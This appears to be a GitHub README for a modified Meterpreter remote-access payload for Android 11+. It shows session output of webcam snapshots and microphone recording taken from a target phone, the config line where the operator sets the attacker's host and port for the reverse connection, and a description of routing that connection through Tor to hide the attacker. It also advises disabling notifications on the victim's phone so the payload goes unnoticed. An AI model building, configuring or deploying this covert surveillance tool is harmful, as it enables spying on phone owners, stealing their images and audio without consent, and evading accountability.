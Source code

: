 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

Compiler:
https://github.com/LGLTeam/AIDE-Mods

## Meterpreter with the Tor network:
```Payload.java```
This file is a Java code that can be used to establish a remote connection with a target system. The modifications made to the code allow it to connect through a SOCKS5 proxy and access a .onion domain, which is a part of the internet accessible only through the Tor network.

The modified part of the code sets up a TCP connection using a local SOCKS5 proxy (127.0.0.1:9050) to connect to the specified .onion domain. This allows the code to communicate with the target system securely and anonymously, protecting the attacker's privacy.
